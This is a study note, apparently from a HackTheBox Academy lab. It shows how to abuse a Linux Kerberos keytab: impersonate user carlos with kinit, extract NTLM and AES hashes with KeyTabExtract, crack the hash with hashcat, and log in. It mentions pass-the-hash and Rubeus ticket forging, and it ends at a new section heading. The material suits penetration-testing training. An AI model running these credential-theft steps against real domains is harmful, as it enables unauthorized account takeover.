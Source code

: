 
Or directly specifying the keytab file
```shell-session
klist -k -t /opt/specialfiles/carlos.keytab
```

![[Pasted image 20240920141218.png]]

The ticket corresponds to the user Carlos. We can now impersonate the user with <mark class="hltr-green">kinit</mark>.

❗: **kinit** is case-sensitive, so be sure to use the name of the principal as shown in klist. In this case, the username is lowercase, and the domain name is uppercase.

```shell-session
kinit carlos@INLANEFREIGHT.HTB -k -t /opt/specialfiles/carlos.keytab
```

![[Pasted image 20240920142244.png]]

We can attempt to access the shared folder `\\dc01\carlos` to confirm our access.

```shell-session
smbclient //dc01/carlos -k -c ls
```

#### <mark class="hltr-grey">Keytab Extract</mark>

keytab files hold ntlm hashes that we can try to crack in order to gain access to his account on the Linux machine.

(The previous method does not grant access to the local account, but rather to services)

We can attempt to crack the account's password by extracting the hashes from the keytab file. Let's use [KeyTabExtract](https://github.com/sosdave/KeyTabExtract), a tool to extract valuable information from 502-type .keytab files.

```shell-session
python3 /opt/keytabextract.py /opt/specialfiles/carlos.keytab 
```

![[Pasted image 20240920151010.png]]

With the NTLM hash, we can perform a Pass the Hash attack. With the AES256 or AES128 hash, we can forge our tickets using Rubeus or attempt to crack the hashes to obtain the plaintext password.


**Cracking the password using hashcat**:
```
hashcat -m 1000 a738f92b3c08b424ec2d99589a9cce60 /usr/share/wordlists/rockyou.txt
```

**log in as carlos**:
```shell-session
su - carlos@inlanefreight.htb
```


### <mark class="hltr-orange">Abusing Keytab ccache</mark>


[DC01]: PS C:\Users\john\Documents> whoami
[DC01]: PS C:\Users\john\Documents> hostname
[DC01]: PS C:\Users\john\Documents>